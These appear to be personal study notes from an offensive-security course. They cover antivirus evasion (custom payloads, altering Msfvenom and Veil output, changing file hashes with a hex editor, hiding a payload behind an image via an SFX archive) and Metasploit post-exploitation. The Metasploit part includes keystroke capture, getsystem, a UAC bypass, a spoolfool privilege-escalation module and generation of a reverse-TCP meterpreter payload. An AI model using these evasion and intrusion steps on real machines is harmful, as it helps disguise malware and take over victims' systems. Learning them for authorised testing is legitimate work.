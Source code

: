 ```
1) The best possible thing that you can do is to create your own Payload (code it yourself). Why ? Well if you create it yourself chances are that same code didnt occur before and it will be unknown to the antivirus vendors. Your unique code once compiled will give a completely different binary that isnt in the database of that antivirus.

2) If you dont yet know how to create your own payloads/viruses/backdoors and you are using softwares like Msfvenom or Veil or similar. Make sure to change that payload as much as possible. If there are some random options you can add, make sure to add them (such as program sleeping for X amount of seconds etc.). Then you can use hexeditor that we will see in the next video to change binary a little bit in order to get different file hash which can help you bypass some antiviruses.

3) Keep an eye for new tools that are using to create payloads/make them undetectable. Both TheFatRat and Veil when they came out produced undetectable payloads. But then once tool becomes known and people start using it, those payloads are uploaded to virus total and eventually become known to antiviruses. However new tools come out all the time, so you can keep an eye out once they come out in order to possibly bypass more antiviruses with that new tool!

4) IF you have a source code to the payload, try changing the code a little bit. Try adding a random function inside the code that doesnt do anything. Then once you compile the program afterwards with that random function it will give a completely different binary to you compared to other people creating payload with that tool just because you added that function.

These are just some of the ways, and I mention them in the next video. 2 important things I would take out from this is to:

    Create your own payloads

    Keep yourself updated with new tools
```

## Hexeditor & antiviruses
### change md5sum of a file
- check md5sum of file (renaming doesn't change hash) : md5sum file.extension
- edit non critical text : hexeditor file.extension
- edit source code : add random useless stuff

payload file not detected and delete as other, but communication try blocked by IDS

## make payload open image
- find .png to .ico file
- read doc about sfx archive : need winrar or 7zip

# Section 11 Post exploit : modules, privileges escalation, data extract, etc.
## privilege escalation
`msf6 > session -i [1-X]`
- use bg (background cmd), upload/download cmd, getuid (get current hostname + username), core cmd, network cmd (ifconfig, netstats : list all open connections, ), etc.
- ps (list pid + process name)
- keyscan* cmd
- getsystem : elevate to admin
- bypass user account control for elevation
```
msf6 > use exploit/windows/local/cve_2022_21999_spoolfool_privesc
...
msf6 exploit(windows/local/cve_2022_21999_spoolfool_privesc) > sessions -i 2
[*] Starting interaction with 2...

meterpreter > getuid
```

[powershell/meterpreter/rev_tcp>>]: set SLEEP 42
[powershell/meterpreter/rev_tcp>>]: set LHOST <kali ip>
[powershell/meterpreter/rev_tcp>>]: generate